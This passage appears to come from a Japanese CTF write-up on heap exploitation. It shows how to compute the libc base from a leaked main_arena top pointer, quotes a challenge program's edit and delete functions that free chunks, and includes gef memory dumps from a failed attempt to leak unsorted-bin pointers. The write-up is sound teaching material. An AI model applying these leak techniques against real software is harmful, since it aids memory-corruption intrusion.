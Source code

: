 ```none
main_arena.top = libc_base_address + offset_main_arena + offset_top
libc_base_address = main_arena.top - offset_main_arena - offset_top
                  = main_arena.top - 0x1ecb80 - 0x60
```

### main_arena.topをリーク
このプログラムには、二箇所に`free`できる場所がある。
一つは、`delete`関数で、もう一つは`edit`関数である。

```c
void edit() {
  printf("index> ");
  int index = get_int();
    //（中略）

  free(msg[index]->content); // here
    //（中略）
}

void delete() {
  printf("index> ");
  int index = get_int();
    //（中略）

  free(msg[index]->content); // here
  free(msg[index]); // here
}
```

#### 失敗例
unsorted binにつながるチャンクを`delete`する前
```none
gef➤  x/16xg 0x000055555555b2d0
0x55555555b2d0: 0x0000000000000000      0x0000000000000021
0x55555555b2e0: 0x0000000000000500      0x000055555555b300
0x55555555b2f0: 0x0000000000000000      0x0000000000000511
0x55555555b300: 0x0000000a42424242      0x0000000000000000
```

`delete`したあと

```none
gef➤  x/16xg 0x000055555555b2d0
0x55555555b2d0: 0x0000000000000000      0x0000000000000021
0x55555555b2e0: 0x0000000000000000      0x000055555555b010
0x55555555b2f0: 0x0000000000000000      0x0000000000000511
0x55555555b300: 0x00007ffff7fc1be0      0x00007ffff7fc1be0
```

```none
puts@plt (
   $rdi = 0x000055555555b010 → 0x0000000000000001,
   $rsi = 0x00000000ffffffda,
   $rdx = 0x0000000000000008
)
```
